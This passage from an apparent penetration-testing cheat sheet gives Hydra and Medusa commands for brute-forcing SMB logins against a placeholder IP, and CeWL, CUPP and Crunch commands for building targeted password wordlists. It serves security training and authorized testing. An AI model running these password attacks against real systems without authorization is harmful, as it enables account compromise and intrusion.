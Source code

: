 #### SMB Password Attacks
```bash
# Using Hydra
hydra -L users.txt -P passwords.txt smb://<IP>

# Using Medusa
medusa -U users.txt -P passwords.txt -h <IP> -M smbnt
```

## Building Wordlists

### CeWL (Custom Word List generator)
```bash
# Basic usage - create wordlist from website
cewl -m 5 -d 2 https://example.com -w wordlist.txt

# Parameters:
# -m 5: minimum word length of 5
# -d 2: crawl 2 levels deep
# -w: output file
```

### CUPP (Common User Passwords Profiler)
```bash
# Interactive mode
./cupp.py -i

# Follow prompts to create targeted password list
```

### Crunch (Pattern-based Generator)
```bash
# Generate passwords of length 8
crunch 8 8 -t admin%%%

# Generate passwords with specific pattern and character set
crunch 9 9 -t admin@%%% -l aaaaa@aaa

# Generate permutations of words
crunch 30 30 -p word1 word2 word3 word4
```

---

**References:**
- FTP RFC: https://datatracker.ietf.org/doc/html/rfc959
- SSH RFC: https://datatracker.ietf.org/doc/html/rfc4251
- SMB/CIFS: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/
